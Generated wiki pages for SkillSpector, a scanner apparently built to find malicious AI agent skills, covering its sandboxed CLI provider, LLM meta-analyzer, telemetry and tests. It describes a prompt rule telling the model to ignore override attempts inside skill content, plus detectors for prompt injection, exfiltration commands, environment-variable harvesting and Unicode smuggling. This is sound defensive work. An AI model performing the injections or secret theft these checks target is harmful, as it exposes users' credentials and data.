3. **Environment Scrubbing:** `_scrub_env()` strips API keys (`ANTHROPIC_API_KEY`, `OPENAI_API_KEY`, `NVIDIA_INFERENCE_KEY`), cloud credentials, SSH agent sockets, and token variables from the child environment [src/skillspector/providers/_agent_cli.py:76-126]().
4. **Capability Stripping:** Disables tools, MCP access, and extra directories. Flags like `--dangerously-skip-permissions` are explicitly blocked [src/skillspector/providers/_agent_cli.py:28-30]().
5. **Resource Bounds and Timeouts:** Inputs are capped at `MAX_INPUT_BYTES` (1 MB) and outputs at `MAX_OUTPUT_BYTES` (10 MB). Calls time out after `CLI_TIMEOUT_SECONDS` (300 seconds) [src/skillspector/providers/_agent_cli.py:71-74]().
6. **Fail-Closed Behavior:** Non-zero exit codes, timeouts, missing binaries, or malformed parsing raise `AgentCLIError` [src/skillspector/providers/_agent_cli.py:37-38]().

Sources: `[src/skillspector/providers/_agent_cli.py:16-126]()`

---

## 3. LangChain Adapter (`AgentCLIChatModel`)

Because LangGraph analyzers and `LLMAnalyzerBase` expect a LangChain `BaseChatModel` supporting `.invoke()` and `.with_structured_output()`, `skillspector.llm_utils` implements the `AgentCLIChatModel` adapter [src/skillspector/llm_utils.py:162-171]().

```mermaid
graph TD
    A["LLMAnalyzerBase"] -->|invoke / with_structured_output| B["AgentCLIChatModel"]
    B -->|complete| C["AgentCLIProviderBase"]
    C -->|subprocess| D["Binary Executable"]

    classDef default fill:#fff,stroke:#000,stroke-width:1px;
```
*Figure 3: Interfacing LangChain callers with local CLI binaries through `AgentCLIChatModel`.*

Sources: `[src/skillspector/llm_utils.py:162-171]()`

### Structured Output Extraction
When analyzers request structured JSON schemas via Pydantic models (`.with_structured_output(schema)`), `AgentCLIChatModel` extracts and parses JSON objects using `_extract_json_object()` from the raw text returned by the agent CLI. If parsing fails, it raises `StructuredOutputParseError`.

Sources: `[src/skillspector/llm_utils.py:38-41]()`

---

## 4. Availability Checks and Live Integration Tests

### Availability Probing
`is_llm_available()` in `skillspector.llm_utils` inspects the active provider. If the provider implements `AgentCLICapable`, it invokes `provider.is_available()`, which verifies that the binary exists on `PATH` and that the CLI tool is authenticated [src/skillspector/llm_utils.py:127-136]().

Sources: `[src/skillspector/llm_utils.py:127-136](), [src/skillspector/providers/base.py:84-113]()`

### Testing Suites
* **Unit Tests (`tests/unit/test_agent_cli.py`):** Mocks subprocess execution to verify `shell=False`, environment scrubbing, argument validation (`_validate_model_label`), and fail-closed exception handling [tests/unit/test_agent_cli.py:16-32]().
* **Live Integration Tests (`tests/integration/test_agent_cli_live.py`):** Marked with `@pytest.mark.integration`, these optional tests invoke real local binaries (`claude`, `codex`, `gemini`). They skip automatically if a binary is missing or unauthenticated [tests/integration/test_agent_cli_live.py:16-70]().

Sources: `[tests/unit/test_agent_cli.py:16-32](), [tests/integration/test_agent_cli_live.py:16-70]()`

---

# Page: LLMAnalyzerBase and Meta-Analyzer

# LLMAnalyzerBase and Meta-Analyzer

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [docs/LLM_ANALYZER_BASE_GUIDE.md](docs/LLM_ANALYZER_BASE_GUIDE.md)
- [docs/release/skillspector-2.10.0.md](docs/release/skillspector-2.10.0.md)
- [src/skillspector/llm_analyzer_base.py](src/skillspector/llm_analyzer_base.py)
- [src/skillspector/llm_utils.py](src/skillspector/llm_utils.py)
- [src/skillspector/nodes/meta_analyzer.py](src/skillspector/nodes/meta_analyzer.py)
- [src/skillspector/providers/base.py](src/skillspector/providers/base.py)
- [tests/nodes/test_llm_analyzer_base.py](tests/nodes/test_llm_analyzer_base.py)
- [tests/nodes/test_meta_analyzer.py](tests/nodes/test_meta_analyzer.py)
- [tests/nodes/test_meta_analyzer_fallback.py](tests/nodes/test_meta_analyzer_fallback.py)
- [tests/unit/test_llm_utils.py](tests/unit/test_llm_utils.py)

</details>


The SkillSpector pipeline leverages a standardized, asynchronous framework for all LLM-powered nodes. This system handles the complexities of token management, parallel execution, rate limiting, retries, and structured data extraction, allowing individual analyzers to focus on prompt engineering [src/skillspector/llm_analyzer_base.py:16-26]().

## LLMAnalyzerBase Architecture

`LLMAnalyzerBase` is the reusable run-loop for LLM-powered analysis [src/skillspector/llm_analyzer_base.py:16-26](). It provides a consistent interface for splitting source code into manageable chunks, invoking LLMs in parallel, and parsing structured responses into the graph state.

### Token-Budget Chunking and Batching

Files are divided into `Batch` objects using `get_batches()` based on the model's token limits resolved via `get_max_input_tokens()` [src/skillspector/model_info.py:53-56](). Oversized files are split using `chunk_file_by_lines()` with line overlaps (`CHUNK_OVERLAP_LINES`) to prevent context window truncation and ensure findings near chunk boundaries are not lost [src/skillspector/llm_analyzer_base.py:99](), [src/skillspector/llm_analyzer_base.py:207-240](). Line numbers are explicitly prefixed using `number_lines()` (`L1:`, `L2:`, etc.) so the model can report precise `start_line` and `end_line` ranges [src/skillspector/llm_analyzer_base.py:243-254]().

### Global LLM Concurrency Limiter

Because graph nodes execute synchronously via `run_async()` [src/skillspector/llm_utils.py:50](), traditional `asyncio.Semaphore` instances created inside each node would fail to limit process-wide concurrency across separate event loops [src/skillspector/llm_analyzer_base.py:138-154](). SkillSpector implements a process-wide concurrency limiter (`_GlobalLLMLimiter` and `_Handover`) governed by `SKILLSPECTOR_MAX_LLM_CONCURRENCY` to prevent HTTP 429 rate-limit errors [src/skillspector/llm_analyzer_base.py:68-94](), [src/skillspector/llm_analyzer_base.py:138-165]().

### Retries and Structured Output

`LLMAnalyzerBase` handles transient API connection errors (`APIConnectionError`) with exponential backoff using `API_CONNECTION_RETRY_DELAYS_SECONDS` [src/skillspector/llm_analyzer_base.py:69-74](), [src/skillspector/llm_analyzer_base.py:116-118](). Structured responses are enforced via LangChain's `with_structured_output` against Pydantic models such as `LLMAnalysisResult` [src/skillspector/llm_analyzer_base.py:291-294]().

Diagram: LLM Execution Pipeline bridging natural language concepts to code entities.

```mermaid
graph TD
    subgraph "NaturalLanguageSpace [LLM Execution Pipeline]"
        A["Input Files & Cache"] --> B["Token-Budget Calculation"]
        B --> C["Parallel LLM Requests"]
        C --> D["Structured Response Parsing"]
    end

    subgraph "CodeEntitySpace [LLMAnalyzerBase Implementation]"
        AA["SkillspectorState['file_cache']"] --> BB["LLMAnalyzerBase.get_batches()"]
        BB --> CC["_GlobalLLMLimiter & _Handover"]
        CC --> DD["LLMAnalyzerBase.arun_batches()"]
        DD --> EE["_structured_llm.ainvoke()"]
        EE --> FF["LLMAnalyzerBase.parse_response()"]
    end

    A -.-> AA
    B -.-> BB
    C -.-> CC
    C -.-> DD
    C -.-> EE
    D -.-> FF

    style AA stroke-width:2px
    style BB stroke-width:2px
    style CC stroke-width:2px
    style DD stroke-width:2px
    style EE stroke-width:2px
    style FF stroke-width:2px
```

Sources: [src/skillspector/llm_analyzer_base.py:16-165](), [src/skillspector/llm_analyzer_base.py:279-331]()

### Precision-Over-Recall

By default, `LLMAnalyzerBase` appends instructions to the `BASE_ANALYSIS_PROMPT` that instruct the model to prefer empty results over false positives, ensuring high-fidelity reporting [src/skillspector/llm_analyzer_base.py:257-276]().

Sources: [src/skillspector/llm_analyzer_base.py:16-46](), [src/skillspector/llm_analyzer_base.py:257-276]()

## LLMMetaAnalyzer

The `LLMMetaAnalyzer` is a specialized subclass of `LLMAnalyzerBase` used by the `meta_analyzer` node [src/skillspector/nodes/meta_analyzer.py:18-21](). Unlike discovery-mode analyzers that find new issues, the meta-analyzer performs a "filter and enrich" pass on existing findings generated by static and behavioral nodes.

### Data Flow and Enrichment

The meta-analyzer pairs static analysis findings with corresponding file text, formatting them via `_format_findings_for_prompt()` and skill metadata via `_format_metadata()` [src/skillspector/nodes/meta_analyzer.py:176-181](). The LLM evaluates findings using `PER_FILE_ANALYSIS_PROMPT` to verify vulnerability status, intent, impact, and confidence [src/skillspector/nodes/meta_analyzer.py:74-110](), [src/skillspector/nodes/meta_analyzer.py:153-189]().

### Local-Only File Handling

Local file content, hidden files, and nested artifacts are processed securely and kept strictly local to deterministic and meta-analysis passes, preventing external data exfiltration or adversarial prompt injection [docs/release/skillspector-2.10.0.md:46-52]().

Diagram: Meta-Analyzer Filter and Enrich Pass bridging natural language concepts to code entities.

```mermaid
graph LR
    subgraph "NaturalLanguageSpace [Filter and Enrich Pass]"
        IN1["Static Analysis Findings"] --> PROC["Meta-Analyzer Evaluation"]
        IN2["Skill File Content"] --> PROC
        PROC --> OUT["Validated Finding Set"]
    end

    subgraph "CodeEntitySpace [LLMMetaAnalyzer Implementation]"
        C1["Finding"] --> C3["LLMMetaAnalyzer.apply_filter()"]
        C2["SkillspectorState['file_cache']"] --> C3
        C3 --> C4["_format_findings_for_prompt()"]
        C4 --> C5["PER_FILE_ANALYSIS_PROMPT"]
        C5 --> C6["MetaAnalyzerResult"]
        C6 --> C7["meta_analyzer() Node Entrypoint"]
    end

    IN1 -.-> C1
    IN2 -.-> C2
    PROC -.-> C3
    PROC -.-> C4
    PROC -.-> C5
    PROC -.-> C6
    OUT -.-> C7

    style C3 stroke-width:2px
    style C6 stroke-width:2px
    style C7 stroke-width:2px
```

Sources: [src/skillspector/nodes/meta_analyzer.py:16-113](), [src/skillspector/nodes/meta_analyzer.py:176-242]()

### Schema and Validation

The meta-analyzer uses the `MetaAnalyzerResult` Pydantic schema, which validates structured outputs:
*   `is_vulnerability`: Boolean flag distinguishing true positives from false positives [src/skillspector/nodes/meta_analyzer.py:87]().
*   `confidence`: Normalized float between 0.0 and 1.0, with validators handling 0–100 scales returned by certain models [src/skillspector/nodes/meta_analyzer.py:91-100]().
*   `intent`: Categorized as `malicious`, `negligent`, or `benign` [src/skillspector/nodes/meta_analyzer.py:102-104]().
*   `impact`: Categorized as `critical`, `high`, `medium`, or `low` [src/skillspector/nodes/meta_analyzer.py:105-107]().
*   `overall_assessment`: Summary and aggregate risk level for the file [src/skillspector/nodes/meta_analyzer.py:112-117]().

Sources: [src/skillspector/nodes/meta_analyzer.py:74-148]()

### Adversarial Instruction Handling

The `PER_FILE_ANALYSIS_PROMPT` contains explicit safety instructions telling the model to ignore any text inside skill content that attempts to override rules, claim the skill is verified safe, or skip security checks, treating such claims instead as red flags [src/skillspector/nodes/meta_analyzer.py:153-170]().

Sources: [src/skillspector/nodes/meta_analyzer.py:153-189]()

## Heuristic Fallback and Fail-Closed Safeguards

When LLM analysis is disabled (`--no-llm`), times out, or encounters errors, `meta_analyzer` engages a fail-closed heuristic fallback via `_fallback_filtered()` [tests/nodes/test_meta_analyzer_fallback.py:16-27]():
*   **Confidence Thresholds**: Findings with confidence `>= 0.4` or matching `HIGH`/`CRITICAL` severity floors are retained [tests/nodes/test_meta_analyzer_fallback.py:53-112]().
*   **Code Example Protection**: Findings located inside markdown code blocks or near example keywords are preserved with deterministic confidence rather than being erased [tests/nodes/test_meta_analyzer_fallback.py:114-179]().
*   **Degraded Reporting**: Partial provider failures mark the run as degraded, flooring otherwise `SAFE` recommendations to `CAUTION` [docs/release/skillspector-2.10.0.md:36]().

Sources: [src/skillspector/nodes/meta_analyzer.py:1-65](), [tests/nodes/test_meta_analyzer_fallback.py:16-179]()

## Token and Model Resolution

Token limits and credentials are resolved through the provider system before analysis begins:

| Function | Responsibility | Source |
| :--- | :--- | :--- |
| `get_max_input_tokens` | Returns 75% of the model's context window for input budgeting. | [src/skillspector/model_info.py:53-56]() |
| `get_chat_model` | Initializes chat models with resolved credentials and base URLs. | [src/skillspector/llm_utils.py:126-150]() |
| `estimate_tokens` | Provides a character-based approximation (4 characters per token) for batching. | [src/skillspector/llm_analyzer_base.py:169-171]() |
| `chunk_file_by_lines` | Splits content into 1-indexed line-range chunks with overlap. | [src/skillspector/llm_analyzer_base.py:207-240]() |

Sources: [src/skillspector/llm_analyzer_base.py:169-171](), [src/skillspector/model_info.py:53-56]()

## Inference Usage Tracking

SkillSpector tracks token usage across all LLM calls via `InferenceUsageCollector` [src/skillspector/inference_usage.py:126-134](). This collector operates as a LangChain callback handler to capture provider-reported token metrics even when using structured output schemas [src/skillspector/inference_usage.py:4-9]().

### Telemetry Normalization

The `_usage_record` function standardizes disparate provider reporting formats (such as Anthropic's prompt caching counters versus OpenAI's usage dicts) into a unified `InferenceUsageRecord` [src/skillspector/inference_usage.py:33-49](), [src/skillspector/inference_usage.py:126-215]().

Sources: [src/skillspector/inference_usage.py:33-49](), [src/skillspector/inference_usage.py:126-215]()

---

# Page: Inference Usage Telemetry

# Inference Usage Telemetry

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [docs/INFERENCE_USAGE.md](docs/INFERENCE_USAGE.md)
- [docs/PI_EXTENSION.md](docs/PI_EXTENSION.md)
- [docs/release/skillspector-2.10.0.md](docs/release/skillspector-2.10.0.md)
- [docs/release/skillspector-2.9.0.md](docs/release/skillspector-2.9.0.md)
- [docs/release/skillspector-2.9.1.md](docs/release/skillspector-2.9.1.md)
- [extensions/skillspector.ts](extensions/skillspector.ts)
- [package.json](package.json)
- [src/skillspector/llm_utils.py](src/skillspector/llm_utils.py)
- [src/skillspector/model_info.py](src/skillspector/model_info.py)
- [src/skillspector/providers/base.py](src/skillspector/providers/base.py)
- [tests/unit/test_llm_utils.py](tests/unit/test_llm_utils.py)
- [tests/unit/test_model_info.py](tests/unit/test_model_info.py)

</details>


## Purpose and Scope

The Inference Usage Telemetry subsystem collects, normalizes, and reports provider-reported LLM usage metrics and model provenance within SkillSpector scan reports. Its core purpose is to provide downstream CI consumers and security pipelines with transparent, raw token consumption and model metadata without requiring log scraping or local estimation. This document covers the internal implementation of `InferenceUsageCollector`, provider registration mechanisms for model provenance, token-budget resolution via `model_info.py`, and the JSON reporting contract defined in `docs/INFERENCE_USAGE.md`.

---

## 1. Inference Usage Collection Architecture

SkillSpector tracks invocation telemetry through stateful collectors that capture successful provider interactions across analyzer nodes. Rather than deriving costs from text length or local tokenizers, the system relies exclusively on provider-reported counters.

The following diagram bridges natural language telemetry concepts to their corresponding code entities in the codebase:

```mermaid
graph TD
    subgraph "Natural Language Space"
        A["Usage Collector"]
        B["Model Metadata Resolver"]
        C["Provider Registration"]
    end

    subgraph "Code Entity Space"
        D["skillspector.inference_usage.InferenceUsageCollector"]
        E["skillspector.model_info._resolve_context_length"]
        F["skillspector.llm_utils.register_chat_model_provider"]
    end

    A --> D
    B --> E
    C --> F
```
*Figure 1: Telemetry Concepts to Code Entities Mapping.*

Sources: [src/skillspector/llm_utils.py:48-93](), [src/skillspector/model_info.py:32-51](), [docs/INFERENCE_USAGE.md:1-44]()

---

## 2. Provider Registration and Provenance Tracking

To record accurate model provenance, SkillSpector binds constructed chat models to their originating providers using weak references in `src/skillspector/llm_utils.py`. When an LLM client executes a request, the system associates the model instance with a sanitized provider label.

```mermaid
graph TD
    subgraph "Model Construction & Binding Flow"
        G["create_chat_model()"] --> H["ChatModel Instance"]
        H --> I["register_chat_model_provider(chat_model, provider)"]
        I --> J["_CHAT_MODEL_PROVIDERS weakref dict"]
        J --> K["chat_model_provider_name(chat_model)"]
    end
```
*Figure 2: Chat Model Provenance Binding Flow.*

Key functions involved in provider registration and lookup:
* `register_chat_model_provider(chat_model, provider)`: Stores a weak reference mapping of `id(chat_model)` to its sanitized provider label [src/skillspector/llm_utils.py:67-84]().
* `chat_model_provider_name(chat_model)`: Retrieves the effective provider name recorded during model construction [src/skillspector/llm_utils.py:86-93]().
* `model_source`: Differentiates whether the model name originated from an explicit `provider_response` or a client-configured `requested_model` [docs/INFERENCE_USAGE.md:65-80]().

Sources: [src/skillspector/llm_utils.py:63-93](), [docs/INFERENCE_USAGE.md:65-80]()

---

## 3. Token Limits and Context Window Resolution

Token budgets and input/output chunking constraints are managed by `src/skillspector/model_info.py`. This module acts as a public façade over the provider metadata resolution chain.

```mermaid
graph TD
    subgraph "Token Budget Resolution Flow"
    L["Model Label input"] --> M["_resolve_context_length(model_label)"]
    M --> N["get_metadata_provider().get_context_length()"]
    N --> O{"Context Found?"}
    O -- Yes --> P["Return Context Length"]
    O -- No --> Q["Fall back to DEFAULT_CONTEXT_LENGTH"]
    P --> R["get_max_input_tokens() (75%)"]
    P --> S["get_max_output_tokens() (capped by YAML registry)"]
    end
```
*Figure 3: Token Budget and Context Window Resolution.*

Key functions in `model_info.py`:
* `_resolve_context_length(model_label)`: Queries the active metadata provider chain, falling back to `DEFAULT_CONTEXT_LENGTH` with a warning if the model is absent [src/skillspector/model_info.py:32-51]().
* `get_max_input_tokens(model)`: Calculates the input token budget as 75% of the resolved context window (`MAX_INPUT_TOKENS_PCT`) [src/skillspector/model_info.py:53-56]().
* `get_max_output_tokens(model)`: Computes the output token budget using the smaller of the percentage-based remainder and any explicit cap exposed by the provider registry [src/skillspector/model_info.py:58-71]().

Sources: [src/skillspector/model_info.py:16-71](), [src/skillspector/providers/base.py:37-60]()

---

## 4. JSON Contract and Downstream Telemetry Integration

As specified in `docs/INFERENCE_USAGE.md`, successful LLM interactions contribute structured records to `metadata.inference_usage` within JSON scan reports. 

### Telemetry Payload Structure

Each record contains normalized prompt, completion, cache, and reasoning metrics:

```json
{
  "metadata": {
    "llm_requested": true,
    "llm_available": true,
    "inference_usage": [
      {
        "node": "semantic_security_discovery",
        "request_kind": "structured_output",
        "provider": "nv_inference",
        "model": "azure/anthropic/claude-opus-4-6",
        "model_source": "provider_response",
        "usage_source": "provider_response",
        "prompt_tokens": 1000,
        "completion_tokens": 100,
        "cached_tokens": 400,
        "cache_write_tokens": 50,
        "reasoning_tokens": 25,
        "total_tokens": 1100
      }
    ]
  }
}
```

### Normalization and Privacy Rules
* **Additive Pricing Shape**: Uncached prompt tokens are computed as `prompt_tokens - cached_tokens - cache_write_tokens`, and total tokens equal `prompt_tokens + completion_tokens` [docs/INFERENCE_USAGE.md:98-115]().
* **Privacy Boundary**: Telemetry records use an strict allowlist. They contain only bounded labels and non-negative numeric counters—prompts, completions, analyzed skill text, and credentials are strictly excluded [docs/INFERENCE_USAGE.md:146-151]().
* **Fail-Closed Behavior**: An empty `inference_usage` list indicates that usage was unobservable or static-only; it must not be interpreted as zero-cost execution or make an incomplete security scan pass [docs/INFERENCE_USAGE.md:121-145]().

Sources: [docs/INFERENCE_USAGE.md:1-151](), [tests/unit/test_llm_utils.py:36-51]()

---

# Page: Testing

# Testing

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [.gitignore](.gitignore)
- [Makefile](Makefile)
- [docs/B.3.2-mcp-tool-poisoning.md](docs/B.3.2-mcp-tool-poisoning.md)
- [docs/SC4-osv-live-vulnerability-lookups.md](docs/SC4-osv-live-vulnerability-lookups.md)
- [src/skillspector/nodes/resolve_input.py](src/skillspector/nodes/resolve_input.py)
- [tests/docker/smoke.sh](tests/docker/smoke.sh)
- [tests/integration/__init__.py](tests/integration/__init__.py)
- [tests/integration/test_graph.py](tests/integration/test_graph.py)
- [tests/nodes/test_resolve_input.py](tests/nodes/test_resolve_input.py)
- [tests/unit/__init__.py](tests/unit/__init__.py)

</details>


## Purpose and Scope

This page provides an overview of the SkillSpector test suite structure, test categories (unit, node, analyzer, integration, provider, and docker smoke), test fixtures, and execution workflows. The test suite is designed to ensure the reliability of the LangGraph-based security pipeline [tests/integration/test_graph.py:16-24](), the accuracy of its analyzer nodes, and the robustness of input handling [tests/nodes/test_resolve_input.py:16-23]().

This is a parent page. For deep technical details, see the following child pages:
- [Unit and Node Tests](#5.1)
- [Integration Tests and Test Fixtures](#5.2)
- [Security Regression and Accuracy Suites](#5.3)

---

## Test Execution and Makefile Targets

The project uses `pytest` as its primary testing framework, orchestrated via `Makefile` targets that manage environment setup, provider-specific keys, and coverage collection [Makefile:1-107]().

| Target | Command | Description |
|:---|:---|:---|
| `make test` | `test-unit test-integration` | Runs both unit and integration suites. [Makefile:60-60]() |
| `make test-unit` | `pytest -m "not integration and not provider"` | Runs unit tests only, excluding LLM network calls. [Makefile:63-64]() |
| `make test-provider` | `pytest -m provider` | Runs live tests against LLM providers (`openai`, `anthropic`, `nv_build`). [Makefile:67-91]() |
| `make test-integration` | `pytest -m integration` | Invokes the full graph workflow. [Makefile:97-98]() |
| `make test-cov` | `pytest --cov=src/skillspector --cov-report=html` | Generates HTML and terminal coverage reports. [Makefile:101-102]() |
| `make test-ci` | `pytest --cov=src/skillspector --cov-report=xml` | Optimized for CI pipelines with Cobertura XML output. [Makefile:105-106]() |
| `make docker-smoke` | `tests/docker/smoke.sh` | Builds and smoke-tests the Docker container against local and remote targets. [Makefile:153-154]() |

Sources: [Makefile:1-154]()

---

## Test Hierarchy and Categories

The test hierarchy mirrors the codebase architecture, segmented into isolated unit checks, node-level functional verification, full graph integration, and containerized smoke tests.

### 1. Unit Tests
Located in `tests/unit/`, these validate isolated modules such as argument parsing, utility helpers, model info, OSV client lookups, regex patterns, and SARIF data structures. For details, see [Unit and Node Tests](#5.1).

### 2. Node-Level and Analyzer Tests
Located in `tests/nodes/` and `tests/nodes/analyzers/`, these tests verify individual LangGraph nodes—such as `resolve_input` [tests/nodes/test_resolve_input.py:16-34]()—and analyzer modules (static patterns, YARA rules, AST behavioral analysis, and semantic components). For details, see [Unit and Node Tests](#5.1).

### 3. Integration Tests
Located in `tests/integration/`, these invoke the complete `StateGraph` workflow defined in `graph.py`, verifying fan-out/fan-in topology, ledger accumulation, and end-to-end report generation [tests/integration/test_graph.py:26-43](). For details, see [Integration Tests and Test Fixtures](#5.2).

### 4. Provider and Docker Smoke Tests
Live provider tests in `tests/provider/` validate structured output requests against actual LLM endpoints [Makefile:16-27](). Container smoke tests executed via `tests/docker/smoke.sh` verify that the packaged Docker image correctly initializes and executes scans against local fixtures and remote repositories [tests/docker/smoke.sh:1-64]().

Sources: [Makefile:1-154](), [tests/integration/test_graph.py:26-43](), [tests/nodes/test_resolve_input.py:16-34](), [tests/docker/smoke.sh:1-64]()

---

## Test Fixtures Catalogue

SkillSpector utilizes dedicated fixture directories under `tests/fixtures/` to test detection rules against known safe, malicious, signed, or protocol-specific inputs [tests/integration/test_graph.py:45-49](). 

Key fixture sets include:
- **Clean and Malicious Baselines:** `safe_skill` and `malicious_skill` for baseline regression testing.
- **MCP Protocol Fixtures:** `mcp_*` skill directories testing Model Context Protocol capabilities, tool poisoning, and least privilege.
- **Signatures and Archives:** `oms/` fixtures containing signed skill payloads (e.g., `mcore-split-pr.skill.oms.sig`) to verify scope exclusion and signature verification [tests/integration/test_graph.py:45-87]().
- **Semantic Discovery Datasets:** `sdi/`, `sqp/`, and `ssd/` test directories for semantic evaluation.

For details, see [Integration Tests and Test Fixtures](#5.2).

Sources: [tests/integration/test_graph.py:45-87]()

---

## Natural Language to Code Entity Space Mappings

The following diagrams bridge natural language testing concepts to their exact code implementations in the repository.

### Test Suite to Code Entity Mapping
This diagram associates test categories with the underlying modules and functions they exercise.

```mermaid
graph TD
    subgraph "NaturalLanguageSpace"
        UT["UnitTests"]
        NT["NodeTests"]
        IT["IntegrationTests"]
    end

    subgraph "CodeEntitySpace"
        IH["InputHandler_src/skillspector/input_handler.py"]
        RI["resolve_input_src/skillspector/nodes/resolve_input.py"]
        GR["graph_src/skillspector/graph.py"]
        SP["run_static_patterns_src/skillspector/nodes/analyzers/static_patterns.py"]
    end

    UT -->|"tests"| IH
    NT -->|"tests"| RI
    NT -->|"tests"| SP
    IT -->|"invokes"| GR
```

Sources: [Makefile:60-98](), [src/skillspector/nodes/resolve_input.py:41-105](), [tests/integration/test_graph.py:26-43]()

### Docker Smoke Test Pipeline Mapping
This diagram maps container smoke test operations to the container entrypoint and verification scripts.

```mermaid
graph LR
    subgraph "NaturalLanguageSpace"
        DS["DockerSmokeTest"]
        VJ["ValidateJSONReport"]
    end

    subgraph "CodeEntitySpace"
        SH["tests/docker/smoke.sh"]
        DC["Dockerfile"]
        RP["skillspector_scan_cli"]
    end

    DS -->|"executes"| SH
    SH -->|"builds"| DC
    DC -->|"installs"| RP
    SH -->|"invokes"| VJ
```

Sources: [Makefile:149-154](), [tests/docker/smoke.sh:11-34]()

---

# Page: Unit and Node Tests

# Unit and Node Tests

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [src/skillspector/cli.py](src/skillspector/cli.py)
- [src/skillspector/nodes/analyzers/static_patterns_data_exfiltration.py](src/skillspector/nodes/analyzers/static_patterns_data_exfiltration.py)
- [src/skillspector/nodes/analyzers/static_patterns_prompt_injection.py](src/skillspector/nodes/analyzers/static_patterns_prompt_injection.py)
- [src/skillspector/nodes/build_context.py](src/skillspector/nodes/build_context.py)
- [tests/nodes/analyzers/test_shared_python_ast.py](tests/nodes/analyzers/test_shared_python_ast.py)
- [tests/nodes/analyzers/test_static_patterns.py](tests/nodes/analyzers/test_static_patterns.py)
- [tests/nodes/test_build_context.py](tests/nodes/test_build_context.py)
- [tests/unit/test_cli.py](tests/unit/test_cli.py)
- [tests/unit/test_wheel_contents.py](tests/unit/test_wheel_contents.py)

</details>


The SkillSpector test suite is divided into two primary categories: **Unit Tests** (validating individual utility modules, configurations, and supporting infrastructure) and **Node Tests** (validating discrete functional units and analyzers within the LangGraph workflow). These tests ensure that both supporting code (CLI, input handlers, LLM providers, OSV clients, wheel packaging) and security inspection routines (AST parsers, static pattern matchers, shared AST caches) operate correctly before integration into the full inspection graph.

---

## Unit Tests (`tests/unit/`)

Unit tests reside in `tests/unit/` and target the core library components, isolating individual functions with `pytest` fixtures and mocks.

### CLI and Input Handling
CLI tests verify command-line argument parsing, environment setup, and error propagation across subcommands.
*   **CLI Invocation**: `test_cli.py` exercises `skillspector scan`, `--version`, and argument handling via `CliRunner` [tests/unit/test_cli.py:52-89](). It verifies that preflight checks reject symlinked parent directories before graph execution [tests/unit/test_cli.py:121-145]() and correctly handles JSON/SARIF output flags [tests/unit/test_cli.py:113-160]().
*   **Input Normalization**: Input handler tests ensure that Git URLs, ZIP archives, and local paths are safely resolved into standardized file caches without security regressions like Zip-Slip or path traversal [src/skillspector/input_handler.py:45-50]().

Sources: [src/skillspector/cli.py](), [src/skillspector/input_handler.py](), [tests/unit/test_cli.py]()

### LLM Utilities, Providers, and Model Info
These tests ensure that the pluggable provider system correctly resolves credentials, manages token budgets, and maps model metadata.
*   **Credential Resolution**: Tests verify priority ordering between active providers, environment variables, and fallback keys [tests/unit/test_llm_utils.py:84-91]().
*   **Provider Metadata**: Tests validate that provider drivers load their bundled YAML registries correctly [tests/unit/test_providers.py:135-147]() and enforce token limits [src/skillspector/constants.py:41-45]().

Sources: [src/skillspector/constants.py](), [tests/unit/test_llm_utils.py](), [tests/unit/test_providers.py]()

### OSV Client (SC4)
The `osv_client` unit tests validate live and fallback vulnerability lookup paths.
*   **Batching & Caching**: Tests verify in-memory caching behavior to minimize redundant API traffic against the OSV.dev batch endpoint [src/skillspector/osv_client.py:45-60]().
*   **Offline Fallback**: Validates graceful degradation to static vulnerability definitions during network errors or air-gapped executions [src/skillspector/osv_client.py:150-165]().

Sources: [src/skillspector/osv_client.py]()

### Suppression, Transitive Traversal, and Wheel Packaging
*   **Wheel Resources**: `test_wheel_contents.py` verifies that built-in distribution wheels (`.whl`) package required non-Python assets—specifically the YARA rule directories and provider model registry YAML files—so runtime scans function correctly when installed from package indexes [tests/unit/test_wheel_contents.py:19-38]().
*   **Baselines**: Tests check YAML/JSON fingerprint serialization and rule-based suppression matching.

Sources: [tests/unit/test_wheel_contents.py](), [src/skillspector/suppression.py](), [src/skillspector/transitive.py]()

---

## Node-Level Tests (`tests/nodes/` and `tests/nodes/analyzers/`)

Node tests validate individual LangGraph nodes and analyzer plugins by passing structured state dictionaries (`SkillspectorState`) and asserting on returned partial state updates or finding lists.

### Core Pipeline Nodes
| LangGraph Node | Test Focus | Source Reference |
| :--- | :--- | :--- |
| `resolve_input` | URL resolution and secure temp directory provisioning. | [src/skillspector/nodes/resolve_input.py:25-50]() |
| `build_context` | Frontmatter parsing (`SKILL.md`), file caching, and manifest extraction. | [tests/nodes/test_build_context.py:82-131]() |
| `report` | Risk score computation (diminishing returns, executable multipliers) and SARIF export. | [tests/nodes/test_report.py:93-148]() |
| `deduplicate` | Cross-analyzer finding collapsing based on `(rule_id, matched_text)`. | [src/skillspector/nodes/deduplicate.py:42-58]() |

Sources: [src/skillspector/nodes/build_context.py](), [src/skillspector/nodes/deduplicate.py](), [src/skillspector/nodes/report.py]()

### Static Pattern Analyzers and Advanced Evasion Checks
Static analyzers rely on `run_static_patterns` to apply regex and lexical rules across windowed security text projections.
*   **Prompt Injection (P1-P4, P9)**: `test_static_patterns.py` validates instruction override detection (P1), HTML comments / hidden strings (P2), and exfiltration command matching (P3) [tests/nodes/analyzers/test_static_patterns.py:53-117]().
*   **Unicode Smuggling & Bidi Controls**: Tests check detection of Trojan Source bidi control characters (CVE-2021-42574) and ASCII tag-block smuggling (`U+E0000–U+E007F`), while ensuring legitimate emoji ZWJ sequences and ISO subdivision flags do not trigger false positives [tests/nodes/analyzers/test_static_patterns.py:87-156]().
*   **Data Exfiltration (E1-E5)**: Validates sink detection for HTTP requests (`requests`, `httpx`), environment variable harvesting (`os.environ`), and cloud storage SDKs (`boto3`, `gsutil`) [src/skillspector/nodes/analyzers/static_patterns_data_exfiltration.py:45-143]().

Sources: [src/skillspector/nodes/analyzers/static_patterns_data_exfiltration.py](), [src/skillspector/nodes/analyzers/static_patterns_prompt_injection.py](), [tests/nodes/analyzers/test_static_patterns.py]()

### Shared AST Caching and Behavioral Analyzers
*   **AST Reuse**: `test_shared_python_ast.py` ensures that Python files are parsed exactly once during `build_context` and reused across parallel behavioral and static Python analyzers (`behavioral_ast`, `behavioral_taint_tracking`, `static_patterns_data_exfiltration`, `static_patterns_output_handling`) [tests/nodes/test_shared_python_ast.py:22-54]().
